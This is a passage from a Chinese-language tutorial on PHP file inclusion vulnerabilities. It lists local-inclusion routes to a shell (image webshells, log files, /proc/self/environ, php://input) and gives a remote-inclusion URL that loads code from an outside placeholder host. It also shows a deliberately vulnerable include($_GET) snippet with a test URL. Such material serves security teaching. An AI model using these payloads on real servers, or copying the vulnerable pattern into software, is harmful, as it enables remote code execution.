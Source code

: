 

## 0x04 漏洞分类

#### 1. 本地文件包含

可以包含本地文件，在条件允许时甚至能执行代码。

- 上传图片马，然后包含
- 读敏感文件，读PHP文件
- 包含日志文件getshell
- 包含/proc/self/envion文件getshell
- 包含data:或php://input等伪协议
- 若有phpinfo则可以包含临时文件

#### 2. 远程文件包含

可以直接执行任意代码。
```
http://xxx.com/xxx.php?file=http://xxx.com/x.php
```

**远程文件包含要保证php.ini中allow_url_fopen和allow_url_include要为On**



## 0x05 漏洞挖掘

通过白盒代码审计
* 
黑盒工具挖掘
* 
  AWVS、Appscan、Burpsuite
* 
  w3af



## 0x06 本地包含漏洞

#### 1. 文件包含漏洞利用的条件

- inlcude()等函数通过动态变量的方式引入需要包含的文件
- 用户能控制该动态变量
```php
<?php
$test=$_GET['c'];
include($test);
?>
```

保存为include.php，在同一个目录下创建test.txt内容为`<?php phpinfo()?>`

然后访问测试：http://127.0.0.1/test/include.php?c=test.txt

#### 2. 本地包含漏洞注意事项
